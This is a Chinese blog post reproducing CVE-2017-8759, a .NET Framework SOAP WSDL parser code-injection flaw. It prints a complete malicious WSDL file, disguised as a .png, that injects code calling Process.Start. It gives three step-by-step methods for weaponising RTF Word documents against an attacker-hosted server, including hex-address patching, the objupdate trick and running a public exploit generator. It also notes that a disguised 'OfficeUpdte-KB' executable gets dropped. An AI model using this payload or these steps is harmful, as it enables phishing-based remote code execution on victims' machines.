






# .NET 框架 0Day 漏洞 CVE-2017-8759 复现过程 - BuXuan - 博客园

> 原文：[`www.cnblogs.com/anbuxuan/p/11778205.html`](https://www.cnblogs.com/anbuxuan/p/11778205.html)

# 漏洞概述

[FireEye](https://www.fireeye.com/blog/threat-research/2017/09/zero-day-used-to-distribute-finspy.html)最近检测到一个恶意的 Microsoft Office RTF 文档，利用[CVE-2017-8759](https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8759)（一种 SOAP WSDL 解析器代码注入漏洞）。此漏洞允许在解析 SOAP WSDL 定义内容期间注入任意代码。

# 基本信息

漏洞名称：.NET Framework 远程代码执行漏洞
漏洞编号：CVE-2017-8759
漏洞影响：.NET 系列产品的远程代码执行（RCE）并进一步控制系统
利用场景：远程钓鱼、社会工程
影响版本：以下.NET 版本
       Microsoft .NET Framework 4.6.2
       Microsoft .NET Framework 4.6.1
       Microsoft .NET Framework 3.5.1
       Microsoft .NET Framework 4.7
       Microsoft .NET Framework 4.6
       Microsoft .NET Framework 4.5.2
       Microsoft .NET Framework 3.5
       Microsoft .NET Framework 2.0 SP2
影响产品：Office(word excel)Edge IE WinOS Skype Lync Sharepoint

# 漏洞利用点

PrintClientProxy 方法中的 WSDL 解析器模块中存在代码注入漏洞。如果提供的包含 CRLF 序列的数据，则 IsValidUrl 不会执行正确的验证。这就造成了攻击者注入和执行任意代码。

这里不详细介绍了（因为我也不懂），可以参考火眼和 360 的分析。



# 利用过程

### 方法一

新建一个图片文件，名字为 office.png（其他格式也行），内容为：

|  
```
<definitions 
 xmlns="http://schemas.xmlsoap.org/wsdl/" 
 xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/" 
 xmlns:suds="http://www.w3.org/2000/wsdl/suds" 
 xmlns:tns="http://schemas.microsoft.com/clr/ns/System" 
 xmlns:ns0="http://schemas.microsoft.com/clr/nsassem/Logo/Logo">
 <portType name="PortType"/>
 <binding name="Binding" type="tns:PortType">
 <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
 <suds:class type="ns0:Image" rootType="MarshalByRefObject"></suds:class>
 </binding>
 <service name="Service">
 <port name="Port" binding="tns:Binding">
 <soap:address location="http://localhost?C:\Windows\System32\calc.exe?011"/>
 <soap:address location=";
 if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
 System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
 System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
 } //"/>
 </port>
 </service>
</definitions> 
```

 |

然后放在 web 目录。
根据样本文件，发现是在 word 文档中添加一个 SOAP 标记。
格式为`soap:wsdl=http://192.168.135.135/office/office.png`
本次以样本为例，然后修改其中的地址。


分别用样本和自己的 web 地址生成特 hex 格式的地址，然后将样本中的地址更换为自己的地址即可。（注意替换的长度需保持一致）


样本文件最重要的是倒数第三行（看起来是空白），然后可以将上面无用的内容全部删除，只留下最后三行。



然后就是打开该 word 文档，就可以看到计算器弹出。但实现的过程有点问题，就是必须点更新链接才会触发（即使将添加 objupdate 还是不行）。


### 方法二

参考[`github.com/vysec/CVE-2017-8759`](https://github.com/vysec/CVE-2017-8759)
新建 o.png，内容为：



word.db 内容：


新建一个 rtf 文档，随意插入一个对象。例如[`192.168.135.135/office/o.png`](http://192.168.135.135/office/o.png) (这是为了下面替换 objdata 内容)
用记事本打开，将`\object\objautlink\rsltpict`修改为`\object\objautlink\objupdate\rsltpict`
打开 blob.bin 文件


将其中的地址修改为[`192.168.135.135/office/o.png`](http://192.168.135.135/office/o.png)
复制原来的地址，尽量多复制点空格。


然后生成新的 hex 地址


然后用生成的地址替换 blob.bin 中的地址

然后将 blob.bin 中的内容替换 word 文档的 objdata 内容。
然后打开 word 文档，就会有神奇的事情发生。


恶意软件将被放置在`C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\OfficeUpdte-KB[6 个随机数字].exe`

> 以上均在虚拟机上测试。没有使用样本中的 left.jpg。最后结果确实如火眼所说的那样生成了 OfficeUpdte-KB******.exe 文件。在 win10(真机)上测试的时候还生成了 http1001924168413541350office0office4png.pdb、http1001924168413541350office0office4png.dll 和 Logo.cs 三个文件。
> 这里方法一没有直接执行的原因我也不太清楚，但是用方法二插入 office.png，也是不会直接执行的。如果方法一和二中过程替换一下，效果也是一样的。

### 方法三

下载脚本[`github.com/fupinglee/MyPython/blob/master/exploit/CVE-2017-8759/CVE-2017-8759_exploit_rtf.py`](https://github.com/fupinglee/MyPython/blob/master/exploit/CVE-2017-8759/CVE-2017-8759_exploit_rtf.py)

使用方法：`python CVE-2017-8759_exploit_rtf.py http://192.168.135.135/office/office.png`
会在当前目录生成文件 cve-2017-8759.rtf，打开即可。

> 根据 CVE-2017-0199 的脚本改写而来，仅仅保留并修改了生成文件的代码。

# 参考链接

[1].[`www.fireeye.com/blog/threat-research/2017/09/zero-day-used-to-distribute-finspy.html`](https://www.fireeye.com/blog/threat-research/2017/09/zero-day-used-to-distribute-finspy.html)
[2].[`mp.weixin.qq.com/s/_rfRtj6da1nowI4qMmkLaA`](https://mp.weixin.qq.com/s/_rfRtj6da1nowI4qMmkLaA)
[3].[`www.mdsec.co.uk/2017/09/exploiting-cve-2017-8759-soap-wsdl-parser-code-injection/`](https://www.mdsec.co.uk/2017/09/exploiting-cve-2017-8759-soap-wsdl-parser-code-injection/)